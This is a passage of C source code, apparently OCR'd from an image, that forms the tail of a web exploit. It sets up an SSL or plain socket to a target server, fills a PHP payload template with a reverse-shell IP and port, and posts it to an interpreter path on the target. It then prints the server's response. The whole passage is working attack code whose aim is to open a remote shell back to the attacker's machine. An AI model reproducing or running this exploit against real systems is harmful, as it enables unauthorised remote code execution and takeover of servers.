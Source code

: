 >     if (!sslconnection->handle) {
>      printf("SSL_new error (12)\n");
>      exit(255);   
>     }
>     if (!SSL_set_fd(sslconnection->handle, sockfd)) {
>      printf("SSL_set_fd error (13)\n");
>      exit(255);
>     }
>    
>     if (SSL_connect(sslconnection->handle) != 1) {
>      printf("SSL_connect error (14)\n");
>      exit(255);       
>     }
>    }
>   
>    tmpsize = strlen(phpstr) + strlen(reverseip) + strlen(reverseportstr) + 64;
>    tmpstr = (char*)calloc(tmpsize, sizeof(char));
>    snprintf(tmpstr, tmpsize, phpstr, reverseip, reverseport);
>    
>    writesize = strlen(target) + strlen(interpreter) + 
>      strlen(poststr) + strlen(tmpstr) + 64;
>    writestr = (char*)calloc(writesize, sizeof(char));
>    snprintf(writestr, writesize, poststr, interpreter,
>      target, strlen(tmpstr), tmpstr);
>   
>    if (!httpsflag) {
>      write(sockfd, writestr, strlen(writestr));
>      readbuf = read_(sockfd);
>    } else {
>      SSL_write(sslconnection->handle, writestr, strlen(writestr));
>      readbuf = sslread(sslconnection);
>    }
>   
>    if (readbuf) {
>      printf("***SERVER RESPONSE***\n\n%s\n\n", readbuf);  
>    } else {
>     printf("read error (15)\n");
>     exit(255);    
>    }
>   }
>   exit(1);
> }
> ```
